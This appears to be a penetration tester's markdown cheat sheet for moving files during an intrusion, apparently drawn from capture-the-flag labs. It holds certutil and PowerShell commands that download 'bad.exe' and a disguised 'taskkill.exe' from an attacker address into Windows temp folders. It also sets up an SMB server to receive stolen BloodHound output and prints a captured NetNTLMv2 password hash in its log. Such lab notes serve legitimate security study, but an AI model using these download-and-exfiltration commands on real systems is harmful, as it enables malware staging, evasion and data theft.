 - [Windows File Transfer](#windows-file-transfer)
	- [Certutil](#certutil)
- [Linux File Transfer](#linux-file-transfer)
	- [impacket-smbserver](#impacket-smbserver)
- [SSH/SCP](#sshscp)


# Windows File Transfer
## Certutil
### [Downloading Files with Certutil](https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil)
```sh
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
certutil -urlcache -f http://10.0.0.5/40564.exe bad.exe

$ip = '10.10.14.5'
certutil -urlcache -f http://$ip/40564.exe bad.exe
```
(New-Object Net.WebClient).DownloadFile('http://$ip/taskkill.exe','C:\Windows\Temp\taskkill.exe')


# Linux File Transfer
## impacket-smbserver
### [SMB](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
### On Server Side (Kali)
```sh
smbserver.py share . -smb2support
smbserver.py share . -smb2support -username root -password toor
```

```sh
$ impacket-smbserver share .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

### On Client Side
```sh
C:\Users\bitbucket\Downloads>net use \\10.1.1.1\share
Enter the user name for '10.1.1.1': root
Enter the password for 10.1.1.1: toor
The command completed successfully.
```

```sh
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>copy acls.csv \\10.1.1.1\share
        1 file(s) copied.
```

### On Server Side (Kali), received the file
```sh
[*] Incoming connection (10.10.10.77,52853)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:ce35716473cdd23a96f36ceb04c047b7:01010000000000008001dda490e0d90110624f8984ad10560000000001001000410070004900720061006c006700690003001000410070004900720061006c00670069000200100044005400690049006800610071006f000400100044005400690049006800610071006f00070008008001dda490e0d90106000400020000000800300030000000000000000000000000300000af600118190f818eb191529b8de7b91c47aaab8e73855d44e95d1b6e27fd549f0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (10.10.10.77,52853)
[*] Remaining connections []

Ctrl + C

$ ls -lh acls.csv                         
-rwxr-xr-x 1 kali kali 110K Jan  1  1970 acls.csv
```

# SSH/SCP
### 
```sh
$ ssh -i alice.pem alice1978@$t ls
lin.txt

$ scp -i alice.pem alice1978@$t:~/lin.txt .
lin.txt          100%   59KB 429.8KB/s   00:00
```

### 
```sh

```

### 
```sh

```